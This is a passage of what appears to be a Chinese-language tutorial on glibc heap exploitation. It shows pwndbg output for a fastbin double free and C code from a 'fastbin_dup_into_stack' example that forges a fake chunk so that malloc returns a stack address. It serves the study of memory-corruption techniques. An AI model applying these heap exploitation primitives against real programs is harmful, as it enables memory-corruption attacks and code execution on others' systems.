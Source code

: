 a,b,c被分配了8字节，释放后会被放到fastbin中。释放a后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602000 ◂— 0x0
```

释放b后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602020 —▸ 0x602000 ◂— 0x0
```

再次释放a后：

```bash
    pwndbg> fastbins
    fastbins
    0x20: 0x602000 —▸ 0x602020 ◂— 0x602000
```

可以看到此时fastbins中有两个a的地址，之后的三次malloc就会导致a的地址被使用两次。

```bash
    1st malloc(8): 0x957010
    2nd malloc(8): 0x957030
    3rd malloc(8): 0x957010
```

## fastbin_dup_into_stack

基于上一个例子，在double free后构造了一个fake chunk。

```c
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
free(a);
free(b);
free(a);
a = malloc(8);
b = malloc(8);
c = malloc(8);

// d指向了a的内存
unsigned long long *d = malloc(8);

// 第二次malloc用掉了b的内存
fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));

// 栈上的变量置为0x20，这步相当于设置了chunksize
stack_var = 0x20;

// 此时更改d的值，相当于更改了fastbin中剩下的chunk的fd, 这里被赋值为stack_var的地址减去d的大小(8)
// 所以fd+8= 20 就是 fake chunk的大小
// 这步结束之后，fastbin中就多了一个指向 &stack_var - 8 地址的fake chunk
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

// 这步使用了 fastbin中原本a所指向的chunk
fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
// 这步就使用了fake chunk
fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
```
